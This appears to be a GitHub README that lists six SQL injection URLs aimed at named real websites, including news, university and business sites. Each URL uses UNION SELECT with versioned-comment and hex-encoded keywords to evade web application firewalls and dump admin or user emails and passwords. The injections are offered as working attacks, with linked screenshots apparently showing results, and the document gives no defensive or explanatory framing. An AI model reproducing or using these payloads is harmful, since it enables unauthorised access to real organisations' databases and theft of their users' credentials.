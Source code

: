 # sqli-waf-website-and-dump-data

Find sqli waf website and dump data

1.
https://www.technos.in/news-details.php?Id=-8' /*!50000Union*/ /*!50000Select*/ 1,/*!50000concat*/(user_email,0x3d,user_pass),3,4,5,6,7 from admin--+
![1](https://github.com/AfrinShahana/sqli-waf-website-and-dump-data/assets/123531000/01a6ac1d-8ac7-41d4-b775-fc6f95ada34b)



2.
https://tsoad.edu.pk/blog-detail.php?id=-29'   /*!50000Union*/ Select 1,concat(email,0x3d,password),3,4,5,6,7 from user--+
![2](https://github.com/AfrinShahana/sqli-waf-website-and-dump-data/assets/123531000/5c9c5ff8-58ac-483c-b4ae-8d75b2ea354b)



 


3.http://www.igoergo.com/_site/about.php?id=4%20%20Union%20Select%201,2,Concat(username,%200x3d3d,password),4,5,6%20from%20member
![3](https://github.com/AfrinShahana/sqli-waf-website-and-dump-data/assets/123531000/6668b8c8-bf8d-43ed-aefc-8e679e7c5c43)
 

4.
https://longlife.com.pk/category.php?id=-21  /*!50000%55%6e%69%6f%6e*/ /*!50000%53%65%6c%65%63%74*/ 1,/*!50000concat*/(email,0x3d,password),3,4,5,6 from administrators--+
![4](https://github.com/AfrinShahana/sqli-waf-website-and-dump-data/assets/123531000/2987aa38-9673-49e8-b8bd-f6d230e7ba0c)
 

5.
http://www.sabrigroup.pk/index.php?_a=gallery&id=15  /*!50000%55%6e%69%6f%6e*/ Select 1,concat(username,0x3d,password),3 from CubeCart_admin_users--+
![5](https://github.com/AfrinShahana/sqli-waf-website-and-dump-data/assets/123531000/ef7b8de1-fee4-4661-aa27-903bd63778ff)
 
6.
https://www.tnjfu.ac.in/cofenag/workshop-read-more.php?id=-7  /*!50000%55%6e%69%6f%6e*/ /*!50000%53%65%6c%65%63%74*/ 1,concat(l_remarks,0x3d,l_password),3,4,5,6,7 from tbl_login--+
![6](https://github.com/AfrinShahana/sqli-waf-website-and-dump-data/assets/123531000/45655301-8aeb-416a-8053-001a1c0a111a)
 
